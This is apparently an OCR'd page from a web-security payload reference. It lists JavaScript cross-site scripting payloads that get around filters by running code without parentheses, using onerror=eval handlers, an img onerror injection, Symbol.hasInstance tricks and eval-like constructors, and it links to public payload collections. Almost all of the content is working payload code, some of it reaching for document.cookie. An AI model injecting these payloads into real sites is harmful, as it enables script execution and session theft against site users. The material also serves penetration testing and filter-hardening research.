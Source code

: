 ````javascript
// Because the objet is passed as "this" and alert() needs "window" to be the value of "this", "window" methods are used
valueOf=alert;window+''
toString=alert;window+''


// Error handler
window.onerror=eval;throw"=alert\x281\x29";
onerror=eval;throw"=alert\x281\x29";
<img src=x onerror="window.onerror=eval;throw'=alert\x281\x29'">
{onerror=eval}throw"=alert(1)" //No ";"
onerror=alert //No ";" using new line
throw 1337
// Error handler + Special unicode separators
eval("onerror=\u2028alert\u2029throw 1337");
// Error handler + Comma separator
// The comma separator goes through the list and returns only the last element
var a = (1,2,3,4,5,6) // a = 6
throw onerror=alert,1337 // this is throw 1337, after setting the onerror event to alert
throw onerror=alert,1,1,1,1,1,1337
// optional exception variables inside a catch clause.
try{throw onerror=alert}catch{throw 1}


// Has instance symbol
'alert\x281\x29'instanceof{[Symbol['hasInstance']]:eval}
'alert\x281\x29'instanceof{[Symbol.hasInstance]:eval}
// The “has instance” symbol allows you to customise the behaviour of the instanceof operator, if you set this symbol it will pass the left operand to the function defined by the symbol.
````
* [https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md](https://github.com/RenwaX23/XSS-Payloads/blob/master/Without-Parentheses.md)
* [https://portswigger.net/research/javascript-without-parentheses-using-dommatrix](https://portswigger.net/research/javascript-without-parentheses-using-dommatrix)

**임의 함수 (alert) 호출**
````javascript
//Eval like functions
eval('ale'+'rt(1)')
setTimeout('ale'+'rt(2)');
setInterval('ale'+'rt(10)');
Function('ale'+'rt(10)')``;
[].constructor.constructor("alert(document.domain)")``
[]["constructor"]["constructor"]`$${alert()}```
import('data:text/javascript,alert(1)')

//General function executions
`` //Can be use as parenthesis
alert`document.cookie`
alert(document['cookie'])
with(document)alert(cookie)
(alert)(1)
(alert(1))in"."
a=alert,a(1)
[1].find(alert)
window['alert'](0)
parent['alert'](1)
self['alert'](2)
top['alert'](3)
this['alert'](4)
frames['alert'](5)
content['alert'](6)
[7].map(alert)
[8].find(alert)
````